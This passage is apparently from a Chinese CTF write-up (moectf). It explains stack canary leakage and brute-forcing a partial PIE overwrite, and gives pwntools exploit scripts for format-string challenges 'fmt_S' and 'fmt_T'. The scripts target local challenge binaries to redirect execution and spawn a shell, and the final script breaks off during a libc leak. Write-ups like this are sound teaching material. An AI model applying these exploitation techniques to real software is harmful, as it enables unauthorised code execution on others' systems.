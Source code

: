 ```python
    if out.find(b'moectf')!= -1:
        print(out)
        break
    else:
        p.close()
        continue

```

其实这个题并不是很难，主要就是对canary和pie的一个考察，首先是canary的一个特点，第一是，单进程情况下，当程序执行之后，canary就已经确定了，如果你注意一下的话，会发现它是从fs0x28取了一个值作为随机值，有兴趣的同学可以去问问ai这个是什么，其实这里针对此点还可以出成另一个爆破板子，去爆破canary，但希望多考一点东西，就改成了爆破pie，另一个特点就是，canary为了截断一些用来泄露的函数，诸如puts，它的最低一个字节是0x00，因此，如果你能通过栈溢出覆盖掉这个0x00，就可以用输出函数将其泄露出来，之后，要考察的就是pie了，pie在进行随机化的时候，粒度并没有那么细，一页的大小往往是0x1000字节，因此，一个页面内的低12位是不会发生变化的，所以你可以通过多次运行，赌它正好是某个地址，比如这里赌它正好是0x127d，还要注意的一点是，我这里给了一些迷惑性的判断，让你去输入一个随机数passwd进行验证，但是题里压根没有给你一个能泄露这个随机值的地方，但是，你都已经可以跳转到任意地址，干嘛还要验证呢？所以请同学们不要看到backdoor函数，就刻板印象的从最开头开始执行，你都可以瞬移了，难不成还要掏出钥匙手动开锁吗？（bushi。

# fmt_S

my_read函数填满后存在一字节\0溢出，可多次触发格式化字符串。利用栈上长链作为跳板可以修改到talk返回地址。my_read函数调用后rdi为bss上的atk，可输入/bin/sh传参。

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process('./pwn')
elf = ELF('./pwn')
#gdb.attach(p,'b *0x401337')
#pause()
bkd=0x40127b
def se(ss):
    p.sendafter(b'...',ss)
def pas():
    p.sendafter(b'!',b'\x00'*8)
se(b'%8$p')
p.recvuntil(b'0x')
st=int(b'0x'+p.recv(12),16)-0x18
log.debug(hex(st))
pas()
payload='%{}c%12$hn'.format(st&0xffff).encode()
se(payload)
pas()
payload='%{}c%32$hn'.format(bkd&0xffff).encode()
se(payload)
p.sendlineafter(b'!',b'sh\x00')
p.interactive()
```

# fmt_T

先泄露libc，由于是递归返回所以依次写'sh'，printf_got表地址，以及修改got的payload

```Python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=process('./pwn')
libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *0x4012de')
#pause()
def sa(pay):
    p.sendafter(b'hell.',pay)
payload=b'%11$p'
p.send(payload)
addr=int(p.recv(14),16)
```